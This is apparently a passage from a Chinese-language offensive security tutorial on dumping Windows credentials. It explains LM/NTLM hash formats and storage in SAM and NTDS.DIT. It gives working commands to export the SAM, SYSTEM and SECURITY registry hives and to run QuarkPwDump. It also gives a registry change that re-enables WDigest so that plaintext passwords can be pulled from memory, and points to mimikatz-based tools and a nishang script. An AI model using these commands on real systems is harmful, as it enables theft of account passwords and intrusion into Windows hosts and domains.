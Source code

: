 将 ncc.txt 的内容一条一条的在 cmd 下面执行，最后可以获取到 123.hex、1.dll、nc.exe exe2bat 不支持大于 64kb 的文件

**hash 抓取**

hash 简介 windows hash:

```
|        | 2000  | xp| 2003 | Vista | win7 | 2008 | 2012 | |--------| |   LM   | √ | √ | √ | |  NTLM  | √ | √ | √ | √ | √ | √ | √|
```

前面三个, 当密码超过 14 位时候会采用 NTLM 加密 test:1003:E52CAC67419A9A22664345140A852F61:67A54E1C9058FCA16498061B96863248::: 前一部分是 LM Hash，后一部分是 NTLM Hash 当 LM Hash 是 **AAD3B435B51404EEAAD3B435B51404EE** 这表示**空密码或者是未使用 LM\_HASH**

Hash 一般存储在两个地方：SAM 文件，存储在本机                         对应本地用户 NTDS.DIT 文件，存储在域控上              对应域用户

**本机 hash + 明文抓取**

1、Get-PassHashes.ps1

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjGPticPeWE9hWK1Ofw0dtHB2zr6NicJcicGHhyDCwwV6xnLiaUJtrbSicRGA/640?wx_fmt=png)

2、导注册表 + 本地分析 Win2000 和 XP 需要先提到 SYSTEM，03 开始直接可以 reg save 导出的文件大, 效率低, 但是安全 (测试的时候和 QuarkPwDump 抓取的 hash 不一致)  

```
reg save hklm\\sam sam.hive
reg save hklm\\system system.hive
reg save hklm\\security security.hive
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjJ1PSPEKFadeicA2KRchhMYbwickgAwfuW2UoGmzRg5ib3mfttVo7Px3SA/640?wx_fmt=png)

3、QuarkPwDump  

```
QuarkPwDump.exe -dhl -o "c:\\1.txt"
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjiaHdsibeQ11LAzbVSrKalTv5kUnzQd6icVk2XjjI1CVpabAODX8HfpicQQ/640?wx_fmt=png)

4、getpass 本地账户明文抓取 闪电小子根据 mimikatz 写的一个内存获取明文密码  

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNj0tn1xibGR3GKIVsyGe05DxmZ0koG0ZGnDxZ5ICuIeKc52xvgalalrrw/640?wx_fmt=png)

http://bbs.pediy.com/showthread.php?t=156643  

**win8+win2012 明文抓取** 

修改一个注册表就可以抓取了

```
reg add HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest /v UseLogonCredential /t REG\_DWORD /d 1
```

```
测试失败
工具：https://github.com/samratashok/nishang/blob/master/Gather/Invoke-MimikatzWDigestDowngrade.ps1文章地址：https://www.trustedsec.com/april-2015/dumping-wdigest-creds-with-meterpreter-mimikatzkiwi-in-windows-8-1/
```
